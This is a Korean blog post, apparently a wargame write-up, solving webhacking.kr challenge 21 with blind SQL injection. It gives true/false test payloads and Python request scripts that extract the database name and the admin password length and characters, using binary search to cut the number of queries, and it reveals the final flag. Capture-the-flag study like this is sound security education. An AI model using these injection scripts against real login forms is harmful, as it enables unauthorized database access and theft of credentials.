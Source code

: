 ```yaml
---
title: "[webhacking.kr] 21번 문제 풀이[blind sql injection]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - blind sql injection
  - sql
toc: true
toc_sticky: true
toc_label: "21번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 21번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제
## 문제 화면
  ![image](https://user-images.githubusercontent.com/33647663/150917552-08962536-c588-488d-a29a-040408cf0151.png)
   
## 문제 풀이
   guest / guest 를 입력하면 다음화면과 같이 **login success** 문구가 나옵니다.
   
   ![image](https://user-images.githubusercontent.com/33647663/150917693-b7898772-6d5d-420d-b63c-337992a0b9e1.png)

   guest / 1234를 입력하면 다음과 같이 **login fail** 문구가 나옵니다. 

   ![image](https://user-images.githubusercontent.com/33647663/150917778-0d17494c-c240-456f-bb8c-ddef2505928c.png)

   blind sql injection을 수행하기 위해 비밀번호 입력하는 부분에 참 / 거짓을 판단할 수 있는 쿼리문을 작성해 봅니다.
   
   서버쪽 DB에 들어가는 쿼리가 다음과 같이 작성되어 있을것이라 가정하고, $pw부분에 다음 쿼리문들을 입력해 봅니다.

   ```sql
   select * from chall21 where id='$id' and pw='$pw';
   ```

   
   > ```' or 1=1 -- ``` : True화면
   > 
   > ![image](https://user-images.githubusercontent.com/33647663/150918138-db079501-c570-473b-8b5d-832b4644fc53.png)

   > ```' or 1=2 -- ``` : False화면
   > 
   > ![image](https://user-images.githubusercontent.com/33647663/150918178-0e86c772-ec21-4fa6-a8a9-679f22ecce8f.png)

   결과를 보고 추론을 해보자면, sql 문의 결과로 부터 DB에서 id,pw를 불러오고 php에서 한번더 검증을 하는 과정이 있는 것 같습니다.
   
    DB에서 아무것도 반환되지 않으면 -> login fail
    
    DB에서 반환이 되었지만 php 코드에서 한번더 검증할때 값이 틀리면 -> wrong password 로 출력이 되는 것 같습니다.

    중요한건 1=1 부분과 1=2 부분에서 참 거짓을 판단할 수 있는 지점을 찾았기 때문에 저곳을 이용해서 Blind sql injection을 수행하겠습니다.


## Blind sql injection
  우선 DB명 / table명 / 컬럼명 아무것도 알고 있는 것이 없으므로 차례대로 구해보겠습니다. 작업은 Python 코드로 했습니다. 
   
  **DB이름 구하기**
  
  ```python
  database_length = 10
  database_name = ''
  for i in range(1,database_length + 1):
      for j in range(127,32,-1):
          payload = "' or ascii(substr(database(),{},1)) = {} -- ".format(i,j)
          params['pw'] = payload
          response = requests.get(url,params=params)
          if(TRUE_FLAG in response.text):
              database_name += chr(j)
              print('database_name = ' + database_name)
              break
  print("database_name =" + database_name)
  ```

  코드 실행결과 DB이름은 'webhacking'이었습니다.
  그다음은 information_schema 를 이용해서 table명을 알아내려고 했는데, select문이 필터링 되어 있었습니다.

  ![image](https://user-images.githubusercontent.com/33647663/150922131-df6af47f-30b7-49b5-b050-175b1e043b87.png)

  그래서 원래는 다음과 같이 페이로드를 구성하고 injection을 수행하려고 했는데 이 방법은 안될것 같습니다.

  ```python
  for i in range(20):
    for j in range(32,127):
        payload = "' or (select ascii(substr(table_name,{},1)) from information_schema.tables where table_schema='webhacking') = {} -- ".format(i,j)
  ```

  여러가지 삽집을 좀 해본결과 column명을 한번 추측해서 해봤습니다. id 값을 저장하는 컬럼명을 'id', pw 값을 저장하는 컬럼명을 'pw'로 가정하고 blind sql injection을 수행하니 풀렸습니다. 이때 사용한 코드는 다음과 같습니다.

  ```python
  def get_password_length():
    for i in range(1,100):
        payload = "' or length(pw) = {} and id='admin' -- ".format(str(i))
        params['pw'] = payload
        response = requests.get(url,params=params)
        
        if('wrong password' in response.text):
            print("find password length")
            return i
  ```

  추가로 저의 payload를 보면 ```or length(pw) = {} and id='admin' -- ``` 으로 id='admin'인 조건을 걸어줬습니다. 해당 조건을 안걸어 주면 id='guest'인 경우의 비밀번호도 같이 조건을 만족하게 되기 때문입니다. 

  위의 코드로 실행해본 결과 컬럼에 있는 데이터의 길이는 36자리 였습니다.

  그 다음은 비밀번호를 알아내는 코드입니다. 일반적으로는 for문 반복 부분에서 ascii코드 값을 1씩 증가시켜서 단순 비교를 하지만, 저는 binary search 알고리즘을 사용해서 성능을 훨씬 올렸습니다.

  예를들어 
  ```python
  for i in range(32,127):
    payload = ' or ascii(substr(pw,1,1)) = {}-- '.format(i)
  ```
  이렇게 작성하면 만약 비밀번호의 첫번째 값이 z라면 아스키 코드값이 122라서 무려 90번의 시도를 하고나서야 첫번째 글자를 찾을 수 있습니다.

  하지만 binary search 알고리즘을 사용하면 저는 최대 8번 안에 무조건 값을 찾아낼 수 있기 때문에 성능 차이가 많이 납니다. 

  본 문제에서는 찾아야하는 비밀번호가 무려 36자리이기 때문에 보다 확실한 성능 차이가 났습니다.

  단순 반복문은 쿼리를 3420번 을 수행했고, binary search 알고리즘은 쿼리를 210번 수행해서 결과를 도출해 냈습니다.**평균적으로 단순 반복문은 하나의 글자를 찾기 위해서 95번의 쿼리를, binary search는 6번의 쿼리를 수행했습니다.** 
  
  단순 반복문 결과 : ![image](https://user-images.githubusercontent.com/33647663/150933253-e02e01b9-3d81-4657-bbdc-afc880197afb.png)

  binary Search 결과 : ![image](https://user-images.githubusercontent.com/33647663/150928020-6fae8811-fdf9-413e-8dc3-9ab978a57d93.png)


  최종 비밀번호 : **there_is_no_rest_for_the_white_angel**

  사용한 코드는 다음과 같습니다

  <script src="https://gist.github.com/kangmyoungseok/f039f0e0b1b832aa98f7aa7b255b4589.js"></script>
